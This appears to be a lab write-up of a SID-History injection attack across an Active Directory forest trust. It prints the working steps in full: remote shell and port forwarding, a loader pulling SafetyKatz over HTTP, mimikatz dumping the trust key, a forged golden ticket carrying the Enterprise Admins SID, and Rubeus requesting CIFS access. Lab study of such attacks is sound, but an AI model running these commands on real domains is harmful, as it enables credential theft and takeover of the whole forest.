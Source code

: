 > SID-History Injection is a technique that attackers can use to impersonate users or gain unauthorized access in a Windows Active Directory environment. The attack involves manipulating the Security Identifier (SID) of a user account by injecting additional SIDs into the SID-History attribute. This attribute is designed to store historical SIDs of a user account in scenarios such as migration between domains

- Running the below command from the process running as DA(`TECH-DC`) to copy Loader.exe on `TECH-DC` and use it to extract credentials

```powershell
# copy loader.exe to dcorp-dc
echo F | xcopy C:\AD\Tools\Loader.exe \\tech-dc\C$\Users\Public\Loader.exe /Y

# spawn interactive shell on dcorp-dc
winrs -r:tech-dc cmd

# set up port forwarding
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.1

# Load loader.exe on memory of dcorp-dc
# Make sure to host SafetyKatz.exe on HFS first
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe

# Extract credentials on the new mimikatz session
lsadump::trust /patch
```

![](https://i.imgur.com/Y3cThSS.png)

- I now have the `rce4` of **[ IN ] TECH.FINANCE.CORP → FINANCE.CORP** 

![](https://i.imgur.com/BCmRzVn.png)

- Then using `BetterSafetyKatz.exe` to Forge a ticket with SID History of Enterprise Admins. thereby Running the below command from an elevated command prompt

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:TECH.FINANCE.CORP /sid:S-1-5-21-1325336202-3661212667-302732393 /sids:S-1-5-21-1712611810-3596029332-2671080496-500 /rc4:de44059e66ddeb88922a75d0f92b4255 /service:krbtgt /target:finance.corp /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"
```

![](https://i.imgur.com/71Lqu0f.png)

> Remember we enumerated **members of the Enterprise Admins group**, the **MemberSID** is what we used for the `/sids:` option here

- Using Rubeus.exe to request TGS using saved ticket and requesting for CIFS(file server) from `finance-dc.finance.corp`

```
C:\AD\Tools\Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/finance-dc.finance.corp /dc:finance-dc.finance.corp /ptt
```
